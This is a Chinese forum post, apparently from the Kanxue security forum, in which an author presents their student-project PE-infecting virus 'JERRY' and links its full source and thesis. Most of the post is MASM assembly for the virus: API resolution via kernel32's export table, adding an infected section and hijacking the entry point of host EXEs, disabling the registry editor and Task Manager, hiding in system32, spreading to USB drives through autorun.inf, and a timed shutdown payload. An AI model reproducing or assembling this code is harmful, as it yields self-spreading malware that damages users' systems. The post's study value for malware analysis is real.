





# PE 感染型病毒的研究和代码实现，附上代码和论文

> 原文：[`www.pediy.com/kssd/pediy10/88380.html`](https://www.pediy.com/kssd/pediy10/88380.html)

我对安全相关的技术非常感兴趣，于是很早就定下了说在大学期间好好研究恶意代码技术，希望自己能做一个名副其实的无害的病毒。由于大学 2 年级才有了自己的电脑，入门太晚，还是太菜。花了近 1 年半才似懂非懂的做出了这个 PE 感染型病毒。已经毕业好几年了。偶然发现我的论文和代码居然在一些小网站售卖。不知道是哪个黑心的老师干的，加上自从看雪改版以来这里的气氛非常活跃。我就决定发到我长久景仰的看雪。  
东西确实比较基础，发到初学者这里，但这一切是我在毫无恶意代码的知识和汇编知识的情况下花了一年多时间一点点啃出来的。请各位不要笑话。谢谢  
  
大多的知识是吸取了 guojpeng 大牛的一篇 paper，在此表示感谢。但由于代码只是片段。我加上了自己的很多东西，并调试通过编译。  
程序并无大的破坏，只是修改了几个注册表键值和定时发作关机。也并未常驻内存，只是感染了 C 目录下的 winrar.exe  
  
这个程序分 5 个模块  

1.  病毒程序主模块-JERRY.ASM

主模块实现病毒的重定位，查找 Kernel32 基地址，调用 SearchAPI 搜索相应的 API 函数地址，文件操作，调用 Modify\_PE 感染 HOST 文件，调用 EffectU 感染主机和 U 盘，调用 Burst 发作。流程参照图 1。  
  

1.  病毒程序搜索 API 函数模块-SearchAPI.ASM

基本流程图  
通过已知函数名称和 Kernel32 引出表来查找所需 API 函数地址并存放，方便以后使用。相关理论知识参照 2.2.4 获取 API 函数地址。基本搜索流程如图 2。  
  
  
代码:

```
核心代码
    lea edi,\[ebp+aGetModuleHandle\]        ;EDI 指向 API 函数地址存放位置        lea esi,\[ebp+lpApiAddrs\]              ;ESI 指向 API 函数名字串偏移地址 Loop\_Get\_API:    
    lodsd                             ;EAX,DS:ESI
    cmp eax,0
    jz End\_Get\_API 
    add eax,ebp
    push eax                          ;第一次 EAX 中放着 GetModuleHandleA 函数名字串的真实位置
    push dword ptr \[ebp+k32Base\]        ;kernel32.dll 基地址
    call GetAPIAdd                    ;SearchAPI.asm 中过程 GetAPIA proto :DWORD,:DWORD
    stosd
    jmp Loop\_Get\_API                ;获得 API 地址,参见 SearchAPI.asm 文件
End\_Get\_API:

```

1.  病毒程序感染 EXE 文件模块-Modify\_PE.ASM

基本流程图  
这是病毒将自身寄生到 HOST 中，感染部分的模块。基本感染流程如图 3。  
  
  
代码:

```
核心代码
cmp word ptr \[esi\],'ZM'                               ;PE 文件判断第一步
jne CouldNotInfect
cmp word ptr \[esi\],'EP'                               ;PE 文件判断第二步 
jne CouldNotInfect 
cmp dword ptr \[esi+8\],'JERR'                          ;文件是否已经感染
je Loop\_Get\_Path               ;如果已经感染过了，试图感染下一个指定文件
……
mov \[ebp+pe\_Header\],esi                               ;保存 pe\_Header 指针 
mov ecx,\[esi+74h\]                                     ;得到 directory 的数目 
imul ecx,ecx,8 
lea eax,\[ecx+esi+78h\]                                 ;eax=data directory 结束地址=节表起始地址 
movzx ecx,word ptr \[esi+6h\]                           ;节数目 
imul ecx,ecx,28h                                      ;得到所有节表的大小 
add eax,ecx                                           ;节结尾
xchg eax,esi               ;eax->Pe\_header,esi->最后节开始偏移(即病毒节开始处)
;----------以上得到了新节的起始地址，以下是利用起始对病毒节的操作------------
mov dword ptr \[esi\],'REJ.'                              ;节名.JERRY 
mov dword ptr \[esi+8\],VirusLen                          ;节的实际大小
……
mov dword ptr \[esi+10h\],eax                           ;保存节对齐文件后的大小
mov eax,\[esi-40+14h\] 
add eax,\[esi-40+10h\] 
mov \[esi+14h\],eax                                     ;PointerToRawData 更新 
mov \[ebp+oldEnd\],eax                     ;病毒代码往 HOST 文件中的写入点 
mov eax,\[ebp+pe\_Header\] 
inc word ptr \[eax+6h\]                                 ;更新节数目 
mov ebx,\[eax+28h\]                                     ;eip 指针偏移 

mov \[ebp+oldEip\],ebx                                  ;保存老指针 
mov ebx,\[ebp+newEip\]                         ;使 HOST 程序首先执行病毒程序 
mov \[eax+28h\],ebx                                     ;更新指针值 
mov ebx,\[eax+50h\]                                     ;更新 ImageSize 
add ebx,VirusLen
……
mov \[eax+50h\],ebx ;确保更新后的 Image\_Size 大小=(原 Image\_size+病毒长度)对齐后的长度 
mov dword ptr \[eax+8\],'JERR'     ;病毒感染标志直接写到被感染文件的 PE 头中
cld
mov ecx,VirusLen
mov edi,\[ebp+oldEnd\]
add edi,\[ebp+pMem\]
lea esi,\[ebp+vBegin\]
rep movsb                        ;将病毒代码写入目标文件新建的节中!
……
push \[ebp+hFile\] 
call \[ebp+aSetFilePointer\]                            ;设定文件读写指针
push \[ebp+hFile\] 
call \[ebp+aSetEndOfFile\]                       ; 将当前文件位置设为文件末尾

```

1.  病毒程序感染及 U 盘传播模块-EffectU.ASM

基本流程图  
本模块是主要的不发作的破坏模块，包括禁用注册表，禁用任务管理器，关联 NOTEPDA.EXE，把自己隐藏并存放到系统目录下，传播 U 盘等。如图 4。  
  
  
本模块的程序流程图如图 4 所示。  
代码:

```
核心代码
call \[ebp+aLoadLibrary\]                  ;导入 advapi32.dll 链接库
mov ebx,eax
lea edx,\[ebp+sRegOpenKeyExA\] 
push edx 
push ebx 
call \[ebp+aGetProcAddress\]               ;获取 RegOpenKeyExA 函数的地址
……
call \[ebp+aRegOpenKeyExA\]             ;修改注册表与 NOTEPAD.EXE 关联
……
call \[ebp+aRegSetValueExA\]
……
push FALSE
lea eax,\[ebp+destinationaddr\]
push eax
lea eax,\[ebp+sourceaddr\]
push eax
call \[ebp+aCopyFileA\]    ;把 JERRY.EXE 拷贝到 C:WINDOWS\\system32\\JERRY.EXE
;-------------------------------
push FILE\_ATTRIBUTE\_SYSTEM+FILE\_ATTRIBUTE\_HIDDEN
lea  eax,\[ebp+destinationaddr\]
push eax
call \[ebp+aSetFileAttributes\]
……
call \[ebp+aGetDriveTypeA\]                  ;取得 U 盘的盘符
cmp eax,DRIVE\_REMOVABLE
……
call \[ebp+aCopyFileA\]         ;拷贝文件\\system32\\JERRY.exe 到#:\\JERRY.EXE
……
push FILE\_ATTRIBUTE\_SYSTEM+FILE\_ATTRIBUTE\_HIDDEN
……
push GENERIC\_READ+GENERIC\_WRITE
call \[ebp+aCreateFile\]                    ;生成空#:\\autorun.inf
……
call \[ebp+aWriteFile\]                    ;为 anturun.inf 写入内容
……

```

1.  病毒程序发作模块-Burst.ASM

基本流程图  
病毒会取系统时间并选择在合适的时间发作，发作的征兆有提示框，关机。  
  
  
代码:

```
核心代码
call \[ebp+aLoadLibrary\]                          ;导入 user32.dll 链接库
mov ebx,eax 
lea edx,\[ebp+sMessageBoxA\] 
push edx 
push eax 
call \[ebp+aGetProcAddress\]                       ;获取 MessageBoxA 函数的地址
……
lea eax,\[ebp+Time\]                             ;23：20-23：59 分之间发作
push eax
call \[ebp+aGetSystemTime\]
cmp \[ebp+Time\].wHour,0Fh
jnz No\_Infect
cmp \[ebp+Time\].wMinute,3Bh
ja No\_Infect
cmp \[ebp+Time\].wMinute,14h
jb No\_Infect
……
push 0 
call \[ebp+aMessageBoxA\]
……
push SW\_SHOW
lea eax,\[ebp+shutdown\]
push eax
call \[ebp+aWinExec\] 

```

  
这里附上我全部源代码和最终的论文。源代码直接通过 masm 编译就可，另外里面还有 2 个 BAT 文件用于完全清除机器上的病毒，论文比较完整的展现了 PE 感染型病毒的基本知识希望对初学者有所的帮助。

上传的附件
|  || jerry.rar  
 |
|  || Win32 平台下的 PE 文件病毒的研究及实现.rar  
 |